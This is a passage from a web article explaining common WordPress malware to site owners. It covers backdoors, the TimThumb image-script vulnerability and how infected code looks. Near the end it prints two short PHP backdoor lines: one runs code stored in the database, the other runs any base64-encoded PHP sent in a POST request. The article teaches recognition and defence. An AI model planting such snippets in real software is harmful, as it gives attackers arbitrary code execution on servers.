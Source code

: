 ## Common WordPress Malware Issues

Thousands of malware types and infections are active on the Internet; fortunately, not all apply to WordPress. For the rest of this post, we’ll look at four of the most common attacks on WordPress users:

*   [Backdoors](#backdoors),
*   [Drive-by downloads](#drive-by-downloads),
*   [Pharma hacks](#pharma-hack),
*   [Malicious redirects](#malicious-redirects).</p>

### Backdoor

A backdoor lets an attacker gain access to your environment via what you would consider to be abnormal methods — FTP, SFTP, WP-ADMIN, etc. Hackers can access your website using the command line or even using a Web-based GUI like this:

<a href="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/872ad110-1ad0-4a29-8607-d465983ff564/backdoor.png"><img loading="lazy" decoding="async"  class="aligncenter size-full wp-image-106952" title="backdoor_small" src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/f531d2a5-d1ac-4595-854e-ad71a4ceb7c4/backdoor-small.png" alt="backdoor gui screenshot" width="792" height="424" /></a><br>
<em>A backdoor GUI. Click the image for the whole picture!</em>

Backdoors are exceptionally dangerous. Left unchecked, the most dangerous can cause havoc on your server. They are often attributed to cross-site contamination incidents — i.e. when websites infect other websites on the same server.

<strong>How am I attacked?</strong>

The attack often happens because of out-of-date software or security holes in code. A vulnerability well known to the WordPress community was <a href="https://markmaunder.com/2011/08/01/zero-day-vulnerability-in-many-wordpress-themes/">found in the TimThumb script</a> that was used for image resizing. This vulnerability made it possible for hackers to upload a payload that functioned as a backdoor.

Here is an example of a scanner looking specifically for vulnerable versions of TimThumb:

<a href="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/2f40ea47-3415-4ade-970e-21c183216f0f/lscreenshot-2.png"><img loading="lazy" decoding="async"  src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/2f40ea47-3415-4ade-970e-21c183216f0f/lscreenshot-2.png" alt="Screenshot" /></a>

<strong>What does it look like?</strong>

Like most infections, this one can be encoded, encrypted, concatenated or some combination thereof. However, it’s not always as simple as looking for encrypted code; there are several instances in which it looks like legitimate code. Here is an example:

<a href="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/a228188d-fc9f-481a-bc18-1a07b93ce103/lscreenshot-3.png"><img loading="lazy" decoding="async"  src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/a228188d-fc9f-481a-bc18-1a07b93ce103/lscreenshot-3.png" alt="Screenshot" /></a>

Another example:

<a href="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/8c38bea3-af5b-48c5-93d4-36cdf9999150/lscreenshot-4.png"><img loading="lazy" decoding="async"  src="https://archive.smashing.media/assets/344dbf88-fdf9-42bb-adb4-46f01eedd629/8c38bea3-af5b-48c5-93d4-36cdf9999150/lscreenshot-4.png" alt="Screenshot" /></a>

Below is a case where the content is hidden in the database and targets WordPress installations:

<pre><code class="language-php">return @eval(get_option(’blogopt1’));</code></pre>

And here is a very simple backdoor that allows any PHP request to execute:

<pre><code class="language-php">eval (base64_decode($_POST["php"]));</code></pre>

